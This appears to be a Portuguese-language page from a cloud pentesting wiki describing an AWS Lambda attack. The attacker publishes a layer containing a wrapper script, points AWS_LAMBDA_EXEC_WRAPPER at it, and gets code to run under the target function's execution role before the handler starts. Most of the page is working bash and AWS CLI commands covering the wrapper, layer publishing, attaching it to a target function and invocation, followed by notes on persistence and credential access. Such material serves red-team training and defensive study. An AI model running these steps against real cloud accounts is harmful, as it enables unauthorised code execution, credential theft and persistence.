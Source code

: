 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

{{#include ../../../../banners/hacktricks-training.md}}

## Resumo

Abuse a variável de ambiente `AWS_LAMBDA_EXEC_WRAPPER` para executar um wrapper controlado pelo atacante antes do runtime/handler iniciar. Entregue o wrapper através de uma Lambda Layer em `/opt/bin/htwrap`, defina `AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap` e então invoque a função. O wrapper roda dentro do processo do runtime da função, herda a role de execução da função e por fim faz `exec` no runtime real para que o handler original ainda execute normalmente.

> [!WARNING]
> Esta técnica concede execução de código na Lambda alvo sem modificar seu código-fonte ou role e sem precisar de `iam:PassRole`. Você só precisa da capacidade de atualizar a configuração da função e publicar/anexar uma layer.

## Permissões Necessárias (atacante)

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (or trigger via existing event)
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion` (same account) and optionally `lambda:AddLayerVersionPermission` if using a cross-account/public layer

## Script do wrapper

Coloque o wrapper em `/opt/bin/htwrap` na layer. Ele pode executar lógica pré-handler e deve terminar com `exec "$@"` para encadear ao runtime real.
```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
ident = boto3.client('sts').get_caller_identity()
print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```
## Etapas do ataque (CLI)

<details>
<summary>Publicar layer, anexar à função alvo, definir wrapper, invocar</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
--layer-name ht-exec-wrapper \
--zip-file fileb://htwrap-layer.zip \
--compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
--query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
--function-name "$TARGET_FN" \
--layers "$LAYER_ARN" \
--environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
--region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```
</details>

## Impacto

- Execução de código pré-handler no contexto do runtime do Lambda usando a execution role existente da função.
- Nenhuma alteração no código da função ou na execution role é necessária; funciona em runtimes gerenciados comuns (Python, Node.js, Java, .NET).
- Permite persistence, credential access (por exemplo, STS), data exfiltration e runtime tampering antes do handler ser executado.

{{#include ../../../../banners/hacktricks-training.md}}
